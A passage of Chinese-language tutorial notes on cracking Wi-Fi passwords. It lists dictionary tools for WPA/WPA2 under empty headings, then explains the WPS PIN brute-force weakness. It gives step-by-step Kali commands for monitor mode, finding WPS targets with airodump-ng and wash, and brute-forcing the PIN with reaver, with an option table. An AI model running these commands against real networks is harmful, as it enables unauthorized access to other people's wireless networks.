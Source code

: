 #### 密码工具

WPA/WPA2密码破解的重点其实不在于握手包的捕获，而在于密码的破解。如果字典中没有相应的密码是无法破解的，而且在PYK的计算中，4096次hash是相当耗时的，所以如何高效的破解密码才是重中之重，以下介绍四个工具：

##### airolib-ng

##### john
 
##### cowpatty

##### pyrit

#### 防御

使用复杂密码

### 破解密码——WPS

#### 原理

通过爆破第一种AP PIN的认证方式，即可直接提取共享秘钥

> pin码是一个8位的整数，破解过程时间比较短。WPS PIN码的第8位数是一个校验和，因此黑客只需计算前7位数。另外前7位中的前四位和后三位分开认证。所以破解pin码最多只需要1.1万次尝试，顺利的情况下在3小时左右。

#### 方法

- 将网卡置入监听模式

```bash
root@kali:~ airmon-ng start wlan0
```

- 通过airodump或者wash嗅探支持WPS的目标：

```bash
root@kali:~# airodump-ng wlan0mon --wps
root@kali:~# wash -i wlan0mon
```

- 利用reaver穷举破解pin码，并通过获取的pin码得到无线AP上网密码（在利用reaver进行爆破时，貌似不要开airodump-ng或者wash来监听，可能会对爆破产生影响）

```bash
# reaver -i wlan0mon -b [AP的MAC地址] -vv(输出详细log) -d [延迟时间] 

root@kali:~# reaver -i wlan0mon -b 00:11:22:33:44:55 -vv -d 3
```

参数说明：

```
1. -i 监听后接口称号‍‍
‍‍2. -b APmac地址‍‍
‍‍3. -a 主动检测AP最佳配置‍‍
‍‍4. -S 利用最小的DH key（能够进步PJ速度）‍‍
‍‍5. -v、-vv 显示更多的破解信息‍‍
‍‍6. -d 即delay每穷举一次的闲置时候预设为1秒‍‍
‍‍7. -t 即timeout每次穷举守候反应的最长时候‍‍
‍‍8. -c 指定频道能够便当找到信号，如-c 1 指定1频道
```
